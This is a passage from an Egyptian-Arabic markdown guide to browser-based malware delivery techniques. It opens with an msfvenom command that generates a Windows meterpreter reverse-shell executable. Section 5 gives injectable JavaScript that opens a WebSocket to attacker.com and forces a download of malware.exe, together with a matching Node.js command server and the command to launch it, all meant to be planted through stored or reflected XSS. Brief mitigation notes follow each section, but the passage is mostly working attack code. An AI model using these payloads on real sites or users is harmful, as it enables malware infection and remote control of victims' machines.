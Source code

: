          ```bash
         msfvenom -p windows/meterpreter/reverse_tcp LHOST=attacker_ip LPORT=4444 -f exe -o malware.exe
         ```
   - **إزاي بيحط السكربت؟**
     - Stored أو Reflected XSS.
   - **الحماية**:
     - استخدم CSP عشان تمنع الفورمات من الإرسال لسيرفرات غريبة.
     - علم المستخدمين ميضغطوش على لينكات تحميل مش متوقعة.

#### 5. **استخدام WebSocket لتحميل الملفات**
   - **إزاي بتحصل؟**
     - السكربت بيستخدم WebSocket عشان يتواصل مع سيرفر المهاجم ويبدأ تحميل ملف خبيث أو ينفذ أوامر خبيثة.
   - **الأوامر أو المفاهيم اللي بتُستخدم**:
     - **سكربت JavaScript (نظري)**:
       ```javascript
       var ws = new WebSocket("ws://attacker.com:8080");
       ws.onopen = function() {
           ws.send("start_download");
       };
       ws.onmessage = function(event) {
           if (event.data === "download") {
               window.location = "http://attacker.com/malware.exe";
           }
       };
       ```
       - `WebSocket`: بيعمل اتصال مستمر.
       - `window.location`: بيبدأ التحميل بناءً على رد السيرفر.
     - **إعداد سيرفر WebSocket**:
       - استخدام **Node.js** مع مكتبة `ws`:
         ```javascript
         const WebSocket = require('ws');
         const wss = new WebSocket.Server({ port: 8080 });
         wss.on('connection', ws => {
             ws.on('message', message => {
                 if (message == "start_download") {
                     ws.send("download");
                 }
             });
         });
         ```
         - شغل السيرفر:
           ```bash
           node websocket_server.js
           ```
   - **إزاي بيحط السكربت؟**
     - Stored أو Reflected XSS.
   - **الحماية**:
     - استخدم CSP عشان تمنع اتصالات WebSocket لغير المواقع الموثوقة.
     - راقب حركة الشبكة.

---
